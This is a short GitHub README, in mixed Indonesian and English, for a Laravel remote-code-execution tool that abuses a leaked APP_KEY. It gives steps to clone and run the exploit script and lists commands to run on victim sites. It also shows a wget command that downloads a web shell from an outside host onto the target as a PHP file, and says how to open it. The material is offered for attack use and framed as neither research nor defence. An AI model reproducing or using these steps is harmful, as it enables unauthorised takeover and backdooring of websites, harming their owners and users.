 <p align="center">
<img src="https://i.ibb.co/87jRW62/20201215-092654.jpg">

### Laravel_rce
Laravel Remote Code Execution With APP_KEY

```
$ pkg install git
$ php install php
$ git clone https://github.com/yrxsecurity/laravel_rce
$ cd laravel_rce
$ php memek.php
```
Web Nya Harus Memiliki APP_KEY , BIAR BISA EKSEKUSI RCE NYA

Basic Command : ls , id , whoami , uname -a , wget

### Laravel RCE Reserve Shell
```
Command : wget http://dyan6etar.cf/shell.txt -O NamaShellNya.php (Enter)
```
Akses : site.com/NamaShellNya.php



Subscribe My Channel:D
